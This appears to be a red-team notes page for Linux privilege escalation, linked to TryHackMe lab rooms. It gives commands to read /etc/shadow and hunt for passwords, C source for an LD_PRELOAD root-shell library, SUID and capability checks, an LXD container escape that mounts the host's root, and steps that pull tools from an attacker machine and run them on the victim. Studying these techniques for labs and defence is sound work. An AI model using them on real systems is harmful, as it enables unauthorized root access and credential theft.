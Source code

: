 # Linux



## **Gathering Info**

```
whoami
```

```
uname -a
```

```
cat /etc/passwd
cat /etc/shadow
```

Check for passwords in environment variables

```
env
```

### Crontab

```
cat /etc/crontab
```

Possible other places crons are running

```
cat /etc/cron.d/
```

## Sudo/SUID/Capabilities <a href="#user-content-sudosuidcapabilities" id="user-content-sudosuidcapabilities"></a>

Run all of these commands then check [https://gtfobins.github.io/](https://gtfobins.github.io/) . They may give different results

### **Check what can be run with NOPASSWD**

```
sudo -l
```

#### **LD\_PRELOAD**

If LD\_PRELOAD is set try below then running the script we can run with NOPASSWD

```
vi preload.c
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**preload.c - code**

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```



```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c
sudo LD_PRELOAD=/tmp/preload.so $NOPASSWD_SCRIPT_WE_CAN_ABUSE
```

### **Files with SUID-bit set**

```
find / -perm -u=s -type f 2> /dev/null 
```

| Finding | Comments                                                                                                                                                          |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| setcap  | If setcap is set that is very interesting checkout room [annie.md](../../../../walkthroughs/tryhackme/annie.md "mention") for an example for privilege escalation |
|         |                                                                                                                                                                   |
|         |                                                                                                                                                                   |

```
getcap -r / 2>/dev/null
```

**Files where group permissions equal to "writable"**

```
find / -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

```
ps aux | grep -v "\[" | grep root
```

```
dpkg -l # debian
```

```
rpm -qa # red hat
```

```
pacman -Qe # arch linux
```

**Look at open ports**

```
ss -ltp
```



### LXD&#x20;

Followed this link on lxd privilege escalation. Did this on [anonymous.md](../../../../walkthroughs/tryhackme/anonymous.md "mention") and [gamingserver.md](../../../../walkthroughs/tryhackme/gamingserver.md "mention")

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI:81/alpine-v3.18-x86_64-20231111_1929.tar.gz
lxc image import ./alpine-v3.18-x86_64-20231111_1929.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```



## PSPY

script that can monitor linux processes without root access

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32 
```





## Docker Breakout / Privilege Escalation

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation" %}

Look at below rooms of docker breakout

[ultratech.md](../../../../walkthroughs/tryhackme/ultratech.md "mention")

[dogcat.md](../../../../walkthroughs/tryhackme/dogcat.md "mention")

[the-marketplace.md](../../../../walkthroughs/tryhackme/the-marketplace.md "mention")



Copy Material from here:

[https://tryhackme.com/room/linprivesc](https://tryhackme.com/room/linprivesc)



**Automated Enumeration Tools**

| Name                          | Link                                                                                                                                                                                           |
| ----------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| LinPeas                       | [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) |
| LinEnum                       | [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)                                                                                                                 |
| LES (Linux Exploit Suggester) | [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)                                                                                           |
| Linux Smart Enumeration       | [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)                                                                           |
| Linux Priv Checker:           | [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)                                                                                                       |



## Room with other things to try

[https://jeffgthompsons-organization.gitbook.io/red-team/walkthroughs/tryhackme/linux-privesc](https://jeffgthompsons-organization.gitbook.io/red-team/walkthroughs/tryhackme/linux-privesc)

## Other Cheat sheets

[https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics)

